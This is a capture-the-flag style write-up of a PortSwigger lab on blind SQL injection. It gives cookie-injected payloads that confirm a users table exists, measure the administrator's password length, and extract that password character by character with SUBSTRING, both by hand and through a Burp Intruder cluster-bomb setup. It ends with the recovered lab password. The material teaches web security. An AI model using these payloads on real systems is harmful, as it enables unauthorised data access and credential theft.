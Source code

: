 ```yaml
---
title: 🕸️ PSA - SQLi 11 - Blind SQLi with conditional responses
date: 2023-05-17
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli, blind, clusterbomb]
img_path: /assets/img/
---
```


Difficulty: `Practitioner`

## 🎯 Goal

This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "**Welcome back**" message in the page if the query returns any rows.

The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

First, let's capture the request into Burp to see what it looks like:

````http
GET / HTTP/2
Host: <host>
Cookie: TrackingId=inef9UVjAF4GJLdj; session=86UdOy9CSRpdDtjDrCqiziIuKdAog6uR
Cache-Control: max-age=0
[...]
````

We know the query behind the ``TrackingId`` is vulnerable to blind SQLi and a ``Welcome back`` message is displayed when the query returns ``true``.

We can test this behaviour with a basic test:

````s
TrackingId=inef9UVjAF4GJLdj' AND '1'='1;    # Welcome back
TrackingId=inef9UVjAF4GJLdj' AND '1'='2;    # Nothing
````

Let's be sure there is a `users` table:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users LIMIT 1)='a     # Welcolme back
````

Let's be sure there is an `administrator` user:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator')='a      # Welcolme back
````

Before guessing the password we have to find its length. I could automate it but usually password aren't that long :(

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a     # Welcome back: password length > 1 char
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a    # Welcome back: password length > 10 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a    # Nothing: password length <= 20 chars
````

Ok so password is between 10 and 20 chars. Let's try one by one now.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a    # Welcome back: password length = 20 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=19)='a    # Nothing: password length != 19 chars
````

The password is ``20`` characters long.

Now time to guess the password. Two possibilities:

- Manually checking every characters at every position (boring)
- Automate with Burp Intruder to send hundreds of requests for us (cool)

Even if we should always automate everything as much as we can I will still present the manual way to show how it is working.

### 1. Manual password guessing

We will have to test one by one every character possible for every position. It's written the password only includes lowercase alphanumeric characters ([a-z][0-9]) and there are 20 positions (the password length) so it's a total of ``36 * 20 = 720`` posibilities...

Because it is too much to do manually I will only explain the principle behind: test every character for every position.

This query uses the ``SUBSTRING()`` function to extract a single character from the password, and test it against a specific value, here `a` at the position `1`. and `9` at the position `20`.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a      # First request
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='9     # Last request
````

Assuming I successfully sent the 720 requests without errors I should have found the password.

### 2. Automate password guessing

I have the Burp Suite Community Edition so I have some feature and throttle limitation but it's doing the work good.

First we have to send the request to the ``Intruder`` with ``ctrl+i``.

In the ``Positions`` tab select ``Cluster bomb``.

The payload positions will be the password character position and the character to test, as the following:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
````

In the Payloads tab:

- payload set 1 will be ``Numbers``
  - from ``1``
  - to ``20``
  - step of ``1``
- payload set 2 will be ``Brute forcer``
  - character set `abcdefghijklmnopqrstuvwxyz0123456789`
  - min length ``1``
  - max length ``1``

When everything is correctly set we can start the attack. Because the CE edition has a request rate limit of 1 per second it took 10+ minutes to end.

We can sort the result responses on their length because the responses with the Welcolme back message will be longuer than those without.

![attack responses](/psa/sqli/psa-sqli-11-1.png){: width="830" height="560" }
_Burp Cluster bomb attack results_

We obtain a table like below revealing the password!

|   1   |   2   |    3 |   4   |   5   |   6   |   7   |   8   |   9   |  10   |  11   |  12   |  13   |  14   |  15   |  16   |  17   |  18   |  19   |  20   |
| :---: | :---: | ---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|   5   |   k   |    y |   j   |   d   |   q   |   4   |   y   |   a   |   q   |   6   |   0   |   q   |   j   |   6   |   6   |   6   |   7   |   4   |   1   |

We can now log in as the ``administrator`` user using the password ``5kyjdq4yaq60qj666741``.
